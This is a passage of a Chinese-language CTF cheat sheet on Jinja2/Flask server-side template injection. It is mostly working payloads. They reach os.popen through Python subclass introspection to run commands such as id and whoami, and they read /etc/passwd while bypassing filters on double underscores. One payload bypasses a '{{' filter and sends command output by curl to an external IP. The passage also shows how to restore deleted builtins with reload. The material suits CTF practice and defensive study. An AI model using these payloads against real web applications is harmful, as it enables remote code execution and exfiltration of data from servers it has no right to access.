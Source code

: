 **PS：将其中的request.args改为request.values则利用post的方式进行传参**

执行命令：

```python
{% set
chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr
%}{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read()
}}

{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read()
}}&cmd=id
```

### 过滤双下划线__

```
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read()}}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

### 过滤{{

```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}
```

### reload方法

CTF题中沙盒环境可能会阉割一些模块，其中内建函数中多半会被删除。如果reload还可以用则可以重载

```python
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']


reload(__builtins__)
```

### __getattribute__方法

这个方法之前介绍过了，获取属性。

```python
[].__class__.__base__.__subclasses__()[60].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__.values()[12]
# 等价于
[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]
```

